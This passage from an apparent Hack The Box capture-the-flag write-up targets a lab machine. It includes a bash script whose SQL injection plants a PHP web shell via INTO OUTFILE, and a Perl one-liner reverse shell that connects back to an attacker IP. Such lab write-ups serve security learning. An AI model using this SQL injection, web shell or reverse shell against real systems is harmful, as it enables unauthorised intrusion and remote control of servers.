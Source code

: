 <div class="filename"><span>room</span></div>

~~~~bash
#!/bin/bash

HOST=supersecurehotel.htb
ROOM="room.php?cod="
COOKIE=$(mktemp -u)

if [ -z "$1" ]; then
  SQLI=$(urlencode "-1 UNION ALL SELECT 1,2,'<?php echo shell_exec(\$_GET[0]); ?>',4,5,6,7 INTO OUTFILE '/var/www/html/images/cmd.php'-- qwerty")
else
  SQLI=$(urlencode "-1 UNION ALL SELECT 1,2,$1,4,5,6,7-- qwerty")
fi

curl -s \
     -c $COOKIE \
     -o /dev/null \
     http://$HOST/

curl -s \
     -b $COOKIE \
     "http://$HOST/${ROOM}${SQLI}" \
| sed -r '/<span class="price-room">/,/<\/span>/!d' \
| sed -r -e 's/\s+<span class="price-room">//' -e '$d' \
| sed -r 's/<\/span>//'

# clean up
rm -f $COOKIE
~~~~

Running the script without argument creates `cmd.php` in `/images`.


{% include image.html image_alt="f2c794ca.png" image_src="/3b664597-88d3-4c0a-bd48-b6709238f69f/f2c794ca.png" %}


## Low-Privilege Shell

Having `cmd.php` is as good as getting a shell. Let's run a Perl one-liner reverse shell back to me, like so:

```
perl -e 'use Socket;$i="10.10.14.163";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Bam.


{% include image.html image_alt="91071a5b.png" image_src="/3b664597-88d3-4c0a-bd48-b6709238f69f/91071a5b.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/194
[2]: https://www.hackthebox.eu/home/users/profile/25205
[3]: https://www.hackthebox.eu/home/users/profile/24844
[4]: https://www.hackthebox.eu/